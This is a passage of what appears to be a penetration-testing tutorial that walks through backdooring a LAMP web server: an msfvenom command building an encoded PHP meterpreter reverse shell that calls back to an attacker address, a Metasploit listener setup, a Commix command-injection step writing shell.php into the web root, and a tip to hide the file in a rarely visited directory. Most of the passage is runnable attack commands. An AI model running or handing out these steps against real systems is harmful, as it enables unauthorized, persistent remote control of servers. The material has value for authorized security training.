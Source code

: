 Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor with Commix that we can then use to gain access to the target system whenever required.

1. The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:

        msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.21 LPORT=1234 -e php/base64 -f raw > shell.php

1. Once you have generated the payload, you will need to modify it by adding the PHP tags so that the script is executed correctly as shown in the following screenshot.

    ![Commix PHP backdoor file contents](commix-php-backdoor-file-contents.png "Commix PHP backdoor file contents")

1. We can now set up the listener with Metasploit  by running the following commands:

        msfconsole
        use multi/handler
        set payload php/meterpreter/reverse_tcp
        set LHOST <KALI-IP>
        set LPORT <PORT>
        run

1. The next step will involve uploading the PHP shell that we just generated to the web server, this can be done with Commix by running the following command:

        commix -u http://<SERVER-IP>/authg?c=id --file-write='/home/kali/Desktop/shell.php' --file-dest='/var/www/html/shell.php

1. In this case, we will be uploading the “shell.php” file to the root of the web server, it is recommended, however, to upload it to a directory that is not frequently accessed.

    If the “shell.php” file is uploaded successfully, you should receive a message similar to the one shown in the screenshot below.

    ![Commix PHP backdoor upload output](commix-php-backdoor-upload-output.png "Commix PHP backdoor upload output")

1. We can retrieve a meterpreter session on the target by navigating to the “shell.php” file on the web server by accessing the following URL with your browser:

        http://<SERVER-IP>/shell.php

    Accessing the through the browser should execute the PHP code and consequently provide you with a meterpreter session on your listener as shown in the following screenshot.

    ![Meterpreter session receiving connection from Commix PHP backdoor](meterpreter-session-receiving-connection-from-commix-php-backdoor.png "Meterpreter session receiving connection from Commix PHP backdoor")

    We have been able to successfully set up the apache-rootkit module and leverage the command injection functionality afforded by the module to execute arbitrary commands on the target system as well as upload a PHP backdoor that will provide you with a meterpreter session.